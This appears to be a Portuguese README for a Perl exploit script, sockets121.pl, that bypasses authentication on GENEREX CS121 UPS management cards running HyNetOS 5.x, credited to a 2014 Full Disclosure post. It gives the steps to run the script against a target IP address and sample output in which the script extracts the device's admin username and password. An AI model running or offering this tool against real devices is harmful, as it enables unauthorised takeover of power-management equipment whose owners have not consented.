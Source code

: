 # Autenticação Bypass do CS121 da GENEREX
 - Este procedimento foi feito com base do CL121BL,B e F da CM comandos na versão HynetOS 5.XX
 Os créditos são totalmente do JKMAC da seclists.org:
 https://seclists.org/fulldisclosure/2014/May/75

 ## UTILIZAÇÃO
 - Dê permissão de executavel no arquivo sockets121.pl:
 ```bash

 chmod +X sockets121.pl
```

 - A sintaxe do script é ./sockets121.pl (IP), ex: ./sockets121.pl 192.168.10.10
 O processo leva cerca de 10 minutos,caso não apresente o login e senha execute novamente que aparecerá as informações:

 ```bash

./sockets121.pl  192.168.10.10

UPS: <VERSION> CS124-16M32M, ROM-Version: 2.5.X(pduc) - Aug 27, 2010 

Target system parameters (current):
Default Protocol : TCP/IP
Default Driver   : Ethernet
Mac address      : 00-03-05-00-00-00
IP address       : 192.168.10.10
Net Mask         : 255.255.255.0
Default Gateway  : XX.XX.XX.XX
DHCP             : 0.0.0.0
DNS              : 0.0.0.0
Port for tools   : 4000


Procurando login ... 
USER: admin, PASS: hg478wegzsu, ACCOUNT: none

```
